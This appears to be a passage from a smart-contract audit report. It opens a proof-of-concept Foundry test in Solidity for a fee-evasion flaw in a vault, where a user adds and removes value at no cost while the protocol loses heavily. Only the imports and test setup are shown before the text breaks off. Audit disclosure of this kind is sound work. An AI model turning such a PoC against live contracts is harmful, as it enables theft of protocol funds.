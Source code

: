### PoC

We will have two PoCs

The first PoC will be demonstrated using a Vault with Custom Deposit and Withdrawal Fees.

This will show a user adding and remove value, at no cost to himself, but at a huge cost for the protocol.

PoC:

```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.27;

import {MultiSetupTest} from "./MultiSetup.u.sol";
import {console2 as console} from "forge-std/console2.sol";
import {ValueFacet} from "../../src/multi/facets/ValueFacet.sol";
import {ERC20} from "openzeppelin-contracts/token/ERC20/ERC20.sol";
import {AssetBookImpl} from "../../src/multi/Asset.sol";
import {MAX_TOKENS} from "../../src/multi/Token.sol";
import {MockERC20} from "../mocks/MockERC20.sol";
import "forge-std/Test.sol";
import {IERC4626} from "openzeppelin-contracts/interfaces/IERC4626.sol";
import {VaultType, VaultLib} from "../../src/multi/vertex/VaultProxy.sol";
import {FullMath} from "../../src/FullMath.sol";

contract TestDoubleFee is MultiSetupTest {
    
    address john = makeAddr("john");
    function setUp() public {
        vm.startPrank(owner);
        _newDiamond();
     
        _newTokensAndVaultsWithFees(4);
        _fundAccount(alice);
        _fundAccount(bob);
        // Its annoying we have to fund first.
        _fundAccount(address(this));
        _fundAccount(owner);
        // So we have to redo the prank.
        vm.startPrank(owner);
        _initializeClosure(0xF, 100e18); // 1,2,3,4
        _initializeClosure(0xE, 100e18); // 2,3,4
        _initializeClosure(0xD, 100e18); // 1,3,4
        _initializeClosure(0xc, 1e12); // 3,4
        _initializeClosure(0xB, 100e18); // 1,2,4
        _initializeClosure(0xa, 1e12); // 2,4
        _initializeClosure(0x9, 1e18); // 1,4
        _initializeClosure(0x8, 1e12); // 4
        _initializeClosure(0x7, 100e18); // 1,2,3
        _initializeClosure(0x6, 1e12); // 2,3
        _initializeClosure(0x5, 1e12); // 1,3
        _initializeClosure(0x4, 1e12); // 3
        _initializeClosure(0x3, 100e18); // 1,2
        _initializeClosure(0x2, 1e12); // 2
        _initializeClosure(0x1, 100e18); // 1
        
        vm.stopPrank();
    }
        function getBalances(
        address who
    ) public view returns (uint256[4] memory balances) {
        for (uint8 i = 0; i < 4; ++i) {
            balances[i] = ERC20(tokens[i]).balanceOf(who);
```